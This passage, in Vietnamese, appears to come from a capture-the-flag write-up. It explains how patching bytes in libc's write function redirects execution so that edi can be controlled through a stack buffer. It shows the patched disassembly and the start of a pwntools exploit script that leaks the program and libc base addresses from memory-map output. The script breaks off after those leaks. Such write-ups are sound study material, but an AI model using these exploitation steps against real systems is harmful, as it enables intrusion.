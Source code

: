 Nếu tính thêm `return address` của hàm write nữa là 8 byte, thì tức là `$rsp+0x43` ở offset `0x43-0x28-8=0x13` của stack frame hàm main, nếu để ý thì nó nằm trong phạm vi của biến `buf`.

Tức là giờ nếu sửa thành `mov edi,DWORD PTR [rsp+0x43]`, ta có thểm kiểm soát giá trị `$edi` thông qua `buf`.

Vấn đề là giờ làm sao để hàm write thực thi ở đoạn `write+32`,  đơn giản mình sửa ở `write+31` từ `ret` thành byte `C`, lúc này hàm write trở thành:

```x86asm
Dump of assembler code for function __GI___libc_write:
   0x00007ffff7d14a20 <+0>:     endbr64 
   0x00007ffff7d14a24 <+4>:     mov    eax,DWORD PTR fs:0x18
   0x00007ffff7d14a2c <+12>:    test   eax,eax
   0x00007ffff7d14a2e <+14>:    jne    0x7ffff7d14a40 <__GI___libc_write+32>
   0x00007ffff7d14a30 <+16>:    mov    eax,0x1
   0x00007ffff7d14a35 <+21>:    syscall 
   0x00007ffff7d14a37 <+23>:    cmp    rax,0xfffffffffffff000
   0x00007ffff7d14a3d <+29>:    ja     0x7ffff7d14a90 <__GI___libc_write+112>
   0x00007ffff7d14a3f <+31>:    rex.XB
   0x00007ffff7d14a40 <+32>:    sub    rsp,0x28
   0x00007ffff7d14a44 <+36>:    mov    QWORD PTR [rsp+0x18],rdx
   0x00007ffff7d14a49 <+41>:    mov    QWORD PTR [rsp+0x10],rsi
   0x00007ffff7d14a4e <+46>:    mov    DWORD PTR [rsp+0x8],edi
   0x00007ffff7d14a52 <+50>:    call   0x7ffff7c90a70 <__GI___pthread_enable_asynccancel>
   0x00007ffff7d14a57 <+55>:    mov    rdx,QWORD PTR [rsp+0x18]
   0x00007ffff7d14a5c <+60>:    mov    rsi,QWORD PTR [rsp+0x10]
   0x00007ffff7d14a61 <+65>:    mov    r8d,eax
   0x00007ffff7d14a64 <+68>:    mov    edi,DWORD PTR [rsp+0x43]
   0x00007ffff7d14a68 <+72>:    mov    eax,0x1
   0x00007ffff7d14a6d <+77>:    syscall 
   0x00007ffff7d14a6f <+79>:    cmp    rax,0xfffffffffffff000
   0x00007ffff7d14a75 <+85>:    ja     0x7ffff7d14aa8 <__GI___libc_write+136>
   0x00007ffff7d14a77 <+87>:    mov    edi,r8d
...
```
Khi này nếu `syscall` ở `write+21` trả về giá trị > 0 thì thay vì `ret` nó sẽ thực thi đoạn code từ `write+32`.

```python
from pwn import *
from time import sleep

context.binary = e = ELF("./chal")
libc = ELF("./libc.so.6")
gs="""
"""
def start():
	if args.LOCAL:
		p=process(e.path)
	elif args.GDB:
		p = gdb.debug(e.path,gdbscript=gs)
		pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p
p = start()
p.recvuntil(b"For otherwise I will surely expire\n")
e.address = int(p.recv(12),16)
p.recvuntil(b"rw-p 00003000 00:106 566730                    /home/user/chal\n")
p.recvline()
p.recvline()
libc.address = int(p.recv(12),16)
p.recvuntil(b"rw-p 00218000 00:106 567509                    /usr/lib/x86_64-linux-gnu/libc.so.6\n")
p.recvline()
```